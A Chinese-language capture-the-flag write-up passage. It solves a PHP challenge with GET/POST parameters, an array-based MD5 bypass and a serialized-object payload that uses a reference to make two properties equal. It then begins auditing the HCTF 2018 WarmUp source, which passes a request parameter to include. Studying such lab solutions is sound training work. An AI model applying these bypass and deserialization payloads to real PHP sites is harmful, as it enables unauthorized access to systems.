 这道题有三层：

1. get和post传参：我们pleaseget参数需要get传入1；pleasepost参数需要post传入2
2. 绕过MD5：我们惯例可以拿列表绕过，md51[]=1&md52[]=2
3. PHP反序列化：里面有个叫BUU的类，我们可以通过**unserialize()函数**，进行反序列化

这个BUU类的实例化对象中，**参数correct** 和 **参数input** 在经过**base64_encode(uniqid())**依然全等，所以我们直接赋值就好了。

```php
<?php	// 反序列化php代码
 class BUU{
     public $correct="";
     public $input="";
}

$obj= new BUU;
$obj->input=&$obj->correct;		// 直接赋值相等就好了
echo serialize($obj);
?>
```

返序列化后，obj传参：

```
obj=O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
```



### [HCTF 2018] WarmUp

常规代码审计题了

查看网页源代码发现一个被注释的地址，直接进入看到源码

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
```

发现另一个文件，hint.php，进入后发现，网页提示：`flag not here, and flag in ffffllllaaaagggg`

回到source.php代码，首先看下面部分:

```php
if(! empty($_REQUEST['file'])  		//$_REQUEST['file']值非空
    && is_string($_REQUEST['file'])  		//$_REQUEST['file']值为字符串
    && emmm::checkFile($_REQUEST['file']) 		 //能够通过checkFile函数校验
    )
	{
     include $_REQUEST['file']; 		 //包含$_REQUEST['file']文件
     exit;q
    }
	 else 
	{
     echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";				 //打印滑稽表情
    }  
```
